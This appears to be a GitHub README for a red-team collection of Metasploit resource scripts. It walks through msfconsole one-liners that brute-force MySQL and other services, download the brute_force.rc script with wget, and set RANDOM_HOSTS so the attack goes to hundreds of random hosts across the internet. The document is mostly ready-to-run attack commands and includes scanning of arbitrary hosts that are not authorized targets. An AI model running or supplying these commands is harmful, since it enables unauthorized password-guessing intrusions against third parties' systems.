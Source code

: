 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:
**Brute force resource scripts deletes my msfconsole database data at exit (delete host list).**<br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote>

The msfconsole database must be empty (**clean**) at resource script execution (**first-time-run**)

      msfconsole -q -x 'hosts -d;services -d;exit -y'

To export database contents to database.xml local folder before executing any rc script (**optional | adviced**)

      msfconsole -q -x 'db_export -f xml database.xml;exit -y'

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)
**Remark: If the database contains any hosts previous to this scans, then rc script will run attacks againts all hosts in db**<br />

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run this resource scripts in 3 diferent ways:</blockquote>

Execute resource script **( Default scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime execution.

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º clean (**or export**) msfconsole database before runing rc script<br />

      sudo msfconsole -q -x 'hosts -d;services -d;exit -y'

- **OR** export current database to database.xml (local)<br />

      sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

4º run brute_force.rc resource script to search hosts on WAN (**limmit to 300 searchs**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote><br />

5º To populate the database with scans, just instruct the rc script to not clean db (**optional | not-adviced**)<br />

      sudo msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'

### Suspicious Shell Activity RedTeam @2019

<br />

